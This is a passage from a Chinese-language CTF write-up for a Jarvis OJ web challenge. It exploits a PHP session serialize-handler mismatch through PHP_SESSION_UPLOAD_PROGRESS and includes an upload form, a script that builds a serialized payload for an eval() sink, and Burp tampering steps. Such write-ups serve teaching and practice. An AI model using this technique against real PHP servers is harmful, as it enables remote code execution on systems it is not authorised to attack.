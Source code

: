 ```php
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('index.php'));
}
?>
```

我们注意到这样一句话`ini_set('session.serialize_handler', 'php');`，因此不难猜测本身在`php.ini`当中的设置可能是`php_serialize`，在查看了`phpinfo`后得证猜测正确，也知道了这道题的考点

那么我们就进入phpinfo查看一下，`enabled=on`表示upload_progress功能开始，也意味着当浏览器向服务器上传一个文件时，php将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中 ；只需往该地址任意 POST 一个名为 `PHP_SESSION_UPLOAD_PROGRESS` 的字段，就可以将 filename 的值赋值到 session 中

<img src="图片\Snipaste_2023-02-05_10-52-40.png" alt="Snipaste_2023-02-05_10-52-40" style="zoom:80%;" />

构造文件上传的表单

```html
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="777" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

接下来构造序列化payload

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
class OowoO
{
    public $mdzz='print_r(scandir(dirname(__FILE__)));';
}
$obj = new OowoO();
echo serialize($obj);
?>
```

由于采用Burp发包，为防止双引号被转义，在双引号前加上`\`，除此之外还要加上`|`

在这个页面随便上传一个文件，然后抓包修改`filename`的值
